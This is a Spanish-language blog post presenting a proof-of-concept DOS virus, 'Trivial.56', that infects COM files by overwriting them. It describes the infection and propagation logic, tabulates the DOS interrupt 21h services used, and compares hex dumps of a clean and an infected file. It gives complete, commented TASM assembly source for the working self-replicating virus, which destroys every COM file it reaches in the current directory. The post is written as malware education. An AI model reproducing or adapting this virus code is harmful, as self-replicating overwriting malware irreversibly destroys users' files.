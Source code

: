 ```yaml
---
categories: [malware, programacion]
layout: post
published: true
tags: [16-bit, ASM-x86, DOS, PoC, TASM, Virus]
title: "Prueba de concepto - Virus: x86/DOS, COM, Overwriting"
toc: true
---
```


Prueba de concepto de virus en la plataforma x86/DOS con estrategia de infección por 
overwriting (sobrescritura) en archivos COM. El virus infecta archivos en tiempo 
de ejecución.

## Método de infección
El virus simplemente sobrescribe otros archivos COM con el código viral. Es la estrategia
más primitiva, pero es muy agresiva y destructiva. Todas las generaciones del 
virus son idénticas.

![infection](/assets/images/poc-virus-x86dos-com-overwriting/infection.png){:width="350"}

Generalmente nada se preserva de los archivos huéspedes ya que son destruidos por la sobrescritura. 
La desinfección consiste en eliminar todos los archivos infectados.

## Método de propagación
La infección se realiza en el momento de ejecución infectando todos los archivos COM en el 
directorio actual a excepción de aquellos con atributo READ-ONLY, HIDDEN o SYSTEM.

## Flujo de ejecución
![flow](/assets/images/poc-virus-x86dos-com-overwriting/flow.png){:width="350"}

## Análisis estático
Hex dump de un archivo sano de tamaño 80 bytes:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span>B4 09 BA 39 01 CD 21 90</span>  <span>´.º9.Í!.</span>
<span>0x0008</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0010</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0018</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0020</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0028</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0030</span>  <span>90 90 90 90 90 B4 00 CD</span>  <span>.....´.Í</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>

Hex dump del archivo infectado:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span class="vs">B4 4E 33 C9 BA 32 01 CD</span>  <span class="vs">´N3Éº2.Í</span>
<span>0x0008</span>  <span class="vs">21 73 08 EB 21 B4 4F CD</span>  <span class="vs">!s.ë!´OÍ</span>
<span>0x0010</span>  <span class="vs">21 72 1B B4 3D B0 02 BA</span>  <span class="vs">!r.´=°.º</span>
<span>0x0018</span>  <span class="vs">9E 00 CD 21 8B D8 B4 40</span>  <span class="vs">ž.Í!‹Ø´@</span>
<span>0x0020</span>  <span class="vs">B9 38 00 BA 00 01 CD 21</span>  <span class="vs">¹8.º..Í!</span>
<span>0x0028</span>  <span class="vs">B4 3E CD 21 EB DF B4 00</span>  <span class="vs">´>Í!ëß´.</span>
<span>0x0030</span>  <span class="vs">CD 21 2A 2E 63 6F 6D 00</span>  <span class="vs">Í!*.com.</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>
<style>
  pre.ovf span { color: #000; }
  pre.ovf span:first-of-type { line-height:200% }
  pre.ovf span.vs { color: #ff0000 }
</style>

El virus sobrescribe desde el offset 0x0000 hasta 0x0037 (56 bytes). Lo único que se 
conserva del huésped es el código luego del offset 0x0037. Si el huésped fuera menor 
a 56 bytes no quedaría nada de el.

## API utilizada
Se utilizan 6 servicios de la DOS API mediante la interrupción de software 21h.
<div class="table-responsive">
<table class="table">
  <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  <tr>
    <td>Terminar programa</td>
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>
    <td>1+</td>
  </tr>
  <tr>
    <td>Abrir archivo existente</td>
    <td>3Dh</td>
    <td>AL = modos de acceso e intercambio<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, AX = handle del archivo <br>Error: CF = 1, AX = código de error </td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Cerrar archivo</td>
    <td>3Eh</td>
    <td>BX = handle del archivo</td>
    <td>Éxito: CF = 0, AX destruido <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Escribir en archivo <br>o dispositivo</td>
    <td>40h</td>
    <td>BX = handle del archivo <br>CX = nro. de bytes <br>DS:DX -&gt; datos a escribir</td>
    <td>Éxito: CF = 0, AX = nro. de bytes escritos <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br>coincidente</td>
    <td>4Eh</td>
    <td>CX = máscara de atributos de archivo<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br>coincidente</td>
    <td>4Fh</td>
    <td class="center">-</td>
    <td>Exito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;###############################################################################
;# Nombre:        virus://DOS/Trivial.56
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Overwriting, Non-Resident, COM infector
;# Tamaño:        56 bytes
;# Propagación:   Acción directa sobre el directorio actual. 
;# Infección:     Sobrescritura de archivos COM (no READ-ONLY/HIDDEN/SYSTEM).
;# Residente:     No
;# Stealth:       No
;# Payload:       No
;##############################################################################
                .8086  
                .model  tiny

                assume  cs:virus, ds:virus

       virus    segment byte public 'CODE'

                org     100h

      start:    mov     ah, 4Eh               ; | AH = 4Eh 
                xor     cx, cx                ; | CX = 0, archivos normales
                lea     dx, search_str        ; | DS:DX -> "*.COM"
                int     21h                   ; |_DOS API - Buscar primer archivo

                jnc     infect_file           ; archivo encontrado
                jmp     exit                  ; no hay archivo

  find_next:    mov     ah, 4Fh               ; | AH = 4Fh  
                int     21h                   ; |_DOS API - Buscar siguiente archivo 

                jc      exit                  ; no hay archivo

infect_file:    mov     ah, 3Dh               ; | AH = 3Dh 
                mov     al, 2                 ; | AL = 2, lectura y escritura
                mov     dx, 9Eh               ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)
                int     21h                   ; |_DOS API - Abrir archivo existente

                mov     bx, ax                ; | BX = handle del archivo 
                mov     ah, 40h               ; | AH = 40h
                mov     cx, virus_size        ; | CX = tamaño del virus
                lea     dx, start             ; | DS:DX -> inicio del código viral
                int     21h                   ; |_DOS API - Escribir en archivo/dispositivo

                mov     ah, 3Eh               ; | AH = 3Eh 
                int     21h                   ; |_DOS API - Cerrar archivo

                jmp     find_next             ; buscar siguiente

       exit:    mov     ah, 00h               ; | AH = 00h
                int     21h                   ; |_DOS API - Retornar a DOS

  search_str    db      "*.com", 00h          ; nombre comodín de búsqueda
  virus_size    equ     ($ - start)           ; tamaño del virus

       virus    ends
                end     start
{% endhighlight %}

## Casos reales
* La familia de virus *Trivial* en sistemas DOS se caracteriza por tener los 
  ejemplares de virus más pequeños. Por ejemplo, *DOS/Trivial.22* es un 
  virus de solo 22 bytes.
* El gusano *VBS/LoveLetter.A@mm* tiene como principal vector de propagación el
  envió masivo de e-mails. Al ejecutarse sobre escribe archivos de extensión 
  *.vbs*, *.vbe*, *.js*, *.css*, *.jpg*, *.txt*, *.html*, *.avi*, *.mp3*, 
  y muchos más. Fue notablemente exitoso en el 2000.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 